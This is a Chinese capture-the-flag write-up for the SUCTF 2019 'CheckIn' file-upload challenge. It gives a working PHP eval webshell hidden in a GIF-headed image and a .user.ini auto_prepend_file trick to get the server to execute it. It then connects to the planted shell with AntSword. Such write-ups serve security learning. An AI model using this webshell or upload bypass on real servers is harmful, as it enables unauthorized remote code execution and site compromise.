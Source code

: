 [题目链接](https://buuoj.cn/challenges#[SUCTF%202019]CheckIn)

文件上传题

网站把php文件的[常用后缀名](https://www.guru99.com/what-is-php-first-php-program.html#6)都过滤了，并且把文件中的`<?`内容也给过滤了。考虑用`<script language='php'>@eval($_POST["password"]);</script>`的写法来绕过。

要知道，想利用webshell的话，必须要能够让服务端将你上传的文件当作php文件去解析，而这题过滤了php文件的后缀名，所以我们无法上传一个php文件，而只能上传一个含有php🐎的图片文件。

所以第二个问题就是怎么让服务端将我们上传的图片文件作为php文件去解析。在这种情况下，可以使用apache的`.htaccess`文件设置让服务端将某个文件当作php文件解析。但是这题环境是nginx，所以没有`.htaccess`。再查阅资料可知，`.user.ini`也是一个可以控制php设置的一个特殊文件。所以这题的思路是先上传`.user.ini`文件，设置在php文件中加载接下来要上传的图片文件，然后上传含有php🐎的图片文件。

两个文件内容

`.user.ini`

```
GIF89a
auto_prepend_file=zyleo.jpg
```

`zyleo.jpg`

```php
GIF89a
<script language='php'>@eval($_POST["zyleo"]);</script>
```

上传之后，看到上传目录为`uploads/fb....b2`，其中也有`index.php`，这就是连接webshell的地址

![image-20210824165341337](image-20210824165341337.png "upload")

然后蚁剑连接就行了

`url地址`：`http://8d42f662-e446-4b96-afd8-ab3d2694bfa1.node4.buuoj.cn:81/uploads/fb10500f3a8407c9ec6ac288f25439b2/index.php`

`连接密码`：`zyleo`

![image-20210824165409582](image-20210824165409582.png "Antsword")
